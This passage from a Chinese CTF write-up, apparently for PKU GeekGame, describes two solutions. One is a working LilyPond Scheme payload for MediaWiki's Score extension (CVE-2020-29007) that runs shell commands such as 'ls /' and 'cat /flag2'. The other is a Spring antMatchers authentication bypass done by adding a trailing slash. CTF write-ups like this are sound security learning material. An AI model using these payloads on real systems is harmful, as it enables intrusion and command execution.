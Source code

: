 第二阶段提示 Mediawiki Score RCE，搜索到 CVE-2020-29007，GIthub 上搜下看看有没有 POC。

搜到[这个](https://github.com/seqred-s-a/cve-2020-29007)但不能用，换成了 [mmiszczyk/lilypond-scheme-hacking](https://github.com/mmiszczyk/lilypond-scheme-hacking)。

他在 snippets 中提供了很多代码示例可以用，虽然要根据[Extension:Score - MediaWiki](https://www.mediawiki.org/wiki/Extension:Score)修改下格式。

把代码放在`‎<score>{...‎}</score>` 中执行比如：

```
<score>{
#(define s "")
#(system "ls / > /tmp/qwertyasdf")
#(let*  ((f (open-input-file "/tmp/qwertyasdf"))
        (c #\space))
  (while (not (eof-object? c))
  (set! s (string-append s (string c)))
  (set! c (read-char f))))
\new Staff <<{g^#s
}>>
}</score>
```

根据页面提示，用户名是 Flag1 和密码是上面的 flag，登录后随便找个页面编辑把上面代码填进去显示预览就行。

![4](images/4.png)

发现 flag2，然后把 `ls /` 换成 `cat /flag2` 再预览下：

![5](images/5.png)

`flag{li1yp0nd_can_1ead_to_rce}`

## 企业级理解

看源码搜下 antMatchers 配置认证绕过，可知在地址栏后加斜杠 `/` 就能绕过验证。

进到 [/admin/query/](https://prob08.geekgame.pku.edu.cn/admin/query/) 选择第三个 `PKU_GeekGame` 。发送时拦截，在地址后面加斜杠，放行。

> {"type":"PKU_GeekGame","value":"flag1{$UUID} 恭喜你发现flag1，还有其他flag等待你发现哦"}

这题好像是动态 flag 就不放了`flag{$UUID}`。

第二阶段才做出来是因为没想到要选择第三个发，悲:(

## 381654729

